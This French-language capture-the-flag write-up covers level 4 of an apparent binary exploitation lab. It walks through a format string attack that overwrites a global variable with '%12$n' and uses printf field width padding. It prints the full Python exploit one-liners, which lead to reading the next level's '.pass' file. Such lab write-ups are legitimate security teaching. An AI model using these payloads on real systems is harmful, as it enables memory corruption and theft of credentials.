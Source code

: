 ## Level 4

Comme au niveau précédent, nous décompilons le binaire.

Appart le main, on retrouve deux fonctions p() et n().

n() fonctionne comme a l'exercice d'avant, il faut donc a nouveau exploiter les
formats strings.

![image](https://user-images.githubusercontent.com/29956389/89816256-84c63f80-db46-11ea-941e-fa91ce5768cc.png)

p() fait juste un appel a printf();

![image](https://user-images.githubusercontent.com/29956389/89816303-9d365a00-db46-11ea-9b3e-8408b9e31d91.png)

Par contre, la valeur a réécrite dans `_m` vaut `0x1025544` soit `16 930 116` en
décimal. Cette variable se situe a l'adresse `0x08049810`.

On commence par trouver l'offset de notre argument dans la stack:

`$ ./level4`
> BBBB %x %x %x %x %x %x %x %x %x %x %x %x

On observe que la valeur `0x42424242 (BBBB)` est décalé de 12, due a l'appel de
fonction `p()` entre le `fgets()` et le `printf()`. On sait donc qu'il faudra utiliser
`'%12$n'`.

Avec toutes ces informations, on construit donc la commande:

`$ python -c 'print "\x10\x98\x04\x08" + "B"*16930112 + "%12$n"' | ./level4`

Sauf que écrire plus de 16 millions de `B` ne fonctionne évidement pas. (Et tant mieux)

On va donc allez un pas plus loin dans l'exploitation des format string, en
utilisant la taille de champ de `printf()`. Ce qui nous donne :

`$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' | ./level4`

Ce qui nous permet d'éviter de passer 16 millions de charactères, mais ils seront quand meme inséré par `printf()` lors de l'évalutation du format.

Pas besoin cette fois ci d'écrire le retour de la fonction dans un fichier, car
la commande executé par `system()` n'est pas un shell mais, `cat
/home/user/level5/.pass`.

Le flag est donc directement affiché sur notre terminal.

